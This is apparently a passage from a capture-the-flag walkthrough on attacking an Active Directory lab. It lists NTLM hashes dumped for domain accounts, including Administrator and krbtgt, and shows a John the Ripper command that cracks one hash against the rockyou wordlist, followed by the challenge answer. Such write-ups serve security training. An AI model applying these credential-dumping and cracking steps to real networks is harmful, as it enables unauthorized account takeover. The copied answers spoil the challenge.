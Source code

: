 ~~~
NTLM : bb068638512ac1118ce7f78e92f49792

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 634fc097987e56849234eb459373d1e7

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a 
~~~

We have gathered the following hashes:

~~~
Administrator:2777b7fec870e04dda00cd7260f7bee6
krbtgt:5508500012cc005cf7082a9a89ebdfdf
Machine1:64f12cddaa88057e06a81b54e73b949b
Admin2:2b576acbe6bcfda7294d6bd18041b8fe 
Machine2:c39f2beb3d2ec06a62cb887fb391dee0 
SQLService:f4ab68f27303bcb4024650d8fc5f973a 
POST:c4b0e1b10c7ce2c4723b4e2407ef81a2
sshd:bb068638512ac1118ce7f78e92f49792
DOMAIN-CONTROLL$:634fc097987e56849234eb459373d1e7
DESKTOP-2$:3c2d4759eb9884d7a935fe71a8e0f54c
DESKTOP-1$:7d33346eeb11a4f12a6c201faaa0d89a 
~~~

Let's crack the Machine1 password:

~~~
$ echo "64f12cddaa88057e06a81b54e73b949b" > machine1.hash
$ /data/src/john/run/john --format=nt machine1.hash --wordlist=/data/src/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:00 DONE (2020-06-04 20:32) 25.00g/s 91200p/s 91200c/s 91200C/s girls..654123
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `Password1`

## #2 - What is the Machine2 Hash?
